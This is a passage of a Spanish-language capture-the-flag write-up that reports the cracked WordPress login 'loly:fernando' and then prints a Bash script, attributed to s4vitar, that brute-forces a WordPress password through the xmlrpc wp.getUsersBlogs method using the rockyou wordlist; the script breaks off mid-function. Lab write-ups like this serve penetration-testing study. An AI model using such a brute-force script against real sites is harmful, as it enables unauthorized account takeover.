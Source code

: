 `loly:fernando`

Pero hay otra forma de hacerlo haciendo un script en `Bash` que desarrollo `Savitar`
<https://github.com/s4vitar>
enviando el `xml` para que tambien use el `rockyou` y nos reporte la contraseña del usuario el script mediante parametros le pasas el `wordlist` que es el `rockyou` y mediante la estrucutra `xml` se encarga de hacer lo que hico `wpscan` para darnos la `password` abusando del `xmlrpc`

```bash
#!/bin/bash

# Colores
greenColour="\e[0;32m\033[1m"
endColour="\033[0m\e[0m"
redColour="\e[0;31m\033[1m"
blueColour="\e[0;34m\033[1m"
yellowColour="\e[0;33m\033[1m"
purpleColour="\e[0;35m\033[1m"
turquoiseColour="\e[0;36m\033[1m"
grayColour="\e[0;37m\033[1m"

function ctrl_c(){
  echo -e "\n\n${redColour}[!] Saliendo...${endColour}\n"
  rm data.xml 2>/dev/null
  tput cnorm; exit 1
}

# Ctrl+C
trap ctrl_c SIGINT

function helpPanel(){
  echo -e "\n${yellowColour}[+]${grayColour} Uso:${blueColour} $0${turquoiseColour} -u${redColour} usuario${turquoiseColour} -w${redColour} wordlist_path${endColour}\n"
  echo -e "\t${purpleColour}-u)${grayColour} Usuario a probar${endColour}"
  echo -e "\t${purpleColour}-w)${grayColour} Ruta del diccionario a probar${endColour}"
  tput cnorm; exit 1
}

declare -i parameter_counter=0

tput civis

while getopts "u:w:h" arg; do
  case $arg in
    u) username=$OPTARG && let parameter_counter+=1;; 
    w) wordlist=$OPTARG && let parameter_counter+=1;;
    h) helpPanel
  esac
done

function makeXML(){
  username=$1
  wordlist=$2

  cat $wordlist | while read password; do
    xmlFile="""
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>loly</value></param> 
<param><value>$password</value></param> 
</params> 
</methodCall>
"""
```